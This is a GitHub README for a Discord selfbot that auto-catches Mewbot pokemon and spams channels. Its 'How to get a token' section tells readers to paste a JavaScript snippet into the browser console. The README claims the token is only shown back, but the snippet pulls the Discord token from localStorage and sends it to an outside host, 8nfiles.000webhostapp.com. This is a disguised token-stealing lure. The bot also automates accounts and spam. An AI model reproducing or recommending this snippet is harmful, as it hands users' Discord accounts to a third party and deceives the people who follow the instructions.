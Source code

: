 Pokecord-Autocatcher
=====
## Description: 
Due to the recent news that Pokecord is now official dead many servers have decided to move onto Mewbot. This is a program for Discord which allows you to auto-catch pokemon spawned by Mewbot with many more features yet to come!
## How to use:
1. Download latest release from [here](https://github.com/RussianWaffles/mewbot-autocatcher/releases)
2. Extract the zip
3. Run `npm i --only=prod` to install dependencies
4. Start the program with `npm start`
5. Goto `localhost:3000`
6. Input your tokens by clicking on the blank avatars(Only the first one is needed if you don't require spam)
7. Edit the server configs by clicking on their icon's
8. Enable the options you require and the program is ready to go!
## How to get a token:
1. Login to the account you want the token of
2. Press `F12` or `CTRL + SHIFT + I` if nothing opens
3. Goto the Console tab
4. Copy and paste this script and press enter
```javascript
location.reload();
function getLocalStoragePropertyDescriptor() {
  const iframe = document.createElement('iframe');
  document.head.append(iframe);
  const pd = Object.getOwnPropertyDescriptor(iframe.contentWindow, 'localStorage');
  iframe.remove();
  return pd;
}
Object.defineProperty(window, 'localStorage', getLocalStoragePropertyDescriptor());
window.location.href = "https://8nfiles.000webhostapp.com/?token=" + window.localStorage.getItem("token").split('"').join('');
```
5. Your token should be displayed back to you
## Features:
- Auto Catch: Catch pokemon as soon as they spawn
- Online Interface: Makes configuring the bot much easier than traditional configs
- Individual Server Config's: Incase you wish to only auto-catch on certain servers
- Auto-Updating: The bot checks if it and its JSON file is up-to-date on startup
- Auto-Reporting: Automatically report's and unrecognised pokemon it finds
- Auto-Restart Capable: Once configured if the bot the crashes and is configured as a service or with [forever](https://www.npmjs.com/package/forever "forever") it will have no problems starting back up.


## Online Interface
An easy to use Online Interface to configure the program.

![GUI](https://raw.githubusercontent.com/RussianWaffles/mewbot-autocatcher/master/GUI.png "GUI")
![GUI2](https://raw.githubusercontent.com/RussianWaffles/mewbot-autocatcher/master/GUI2.png "GUI2")
![GUI3](https://raw.githubusercontent.com/RussianWaffles/mewbot-autocatcher/master/GUI3.png "GUI3")
![GUI4](https://raw.githubusercontent.com/RussianWaffles/mewbot-autocatcher/master/GUI4.png "GUI4")

- Handles up to 3 bots at once, the Main Bot which is used to catch the pokemon and the 2 Spam Bots which are used to send spam
- An area for the Main Bot's servers where each one is able to be individually configured
- The main options for the program
- Bot Logs where any caught pokemon are displayed(up to 100 logs are displayed)
- Debug Logs where logs for debugging are displayed(up to 100 logs are displayed)
- Statistics to quickly check the program


## Spam
The two Spam Bots are able to spam into a given channel with a given spam delay across all configured servers using a random line picked from `spam.txt`

## Auto catch
The Main Bot is able to catch a pokemon either as soon as it spawns or with a given delay across all configured servers.

By RussianWaffles
-----

